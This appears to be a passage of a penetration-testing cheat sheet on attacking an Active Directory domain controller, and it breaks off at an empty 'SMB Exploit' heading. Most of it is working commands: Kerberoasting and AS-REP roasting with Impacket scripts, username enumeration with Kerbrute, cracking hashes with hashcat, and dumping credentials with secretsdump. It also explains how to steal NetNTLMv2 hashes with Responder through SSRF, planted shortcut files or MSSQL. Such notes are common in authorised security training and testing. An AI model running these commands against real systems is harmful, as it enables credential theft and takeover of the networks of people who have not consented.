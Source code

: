 ### Attacking the DC directly (Kerberos I)

Always try [GetUserSPNs.py](http://GetUserSPNs.py) if you have creds

```bash
python3 GetUserSPNs.py domain.com/svc_tgs:password -dc-ip $ip -request
```

### Attacking the DC directly (Kerberos II)

Kerbrute to enum valid usernames

[https://github.com/ropnop/kerbrute/releases](https://github.com/ropnop/kerbrute/releases)

```bash
./kerbrute_linux_amd64 userenum -d domain.com /opt/SecLists/Usernames/xato-net-10-million-usernames.txt --dc $ip
```

Query ASREPRoastable accounts from the Key Distribution Center

```bash
python3 GetNPUsers.py domain.com/ -dc-ip $ip -usersfile valid_usernames.txt -format hashcat -outputfile hashes.txt
```

Crack hashes

```bash
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt --outfile="pw.txt"
```

List shares

```bash
smbclient -L //$ip --user=domain.com/admin%password
```

Retrieve password hashes

```bash
python3 secretsdump.py domain.com/admin:password@$ip
```

### Attacking the DC Directly (Responder - 80/445/1433) - NetNTLMv2 hash stealing

Web Service vulnerable to SSRF RFI we can use responder to steal NTLM credentials by running responder and forcing the target to connect to our web server

SMB Service that has Write permissions over a specific share we can upload a LNK, SCF or URL shortcut to point to our ico file in our local kali to steal NTLM hash

MSSQL Service that we can authenticate with could force the service to authenticate to our local kali to steal NTLM hash

```bash
responder -I tun0 -wv
```

SMB Exploit
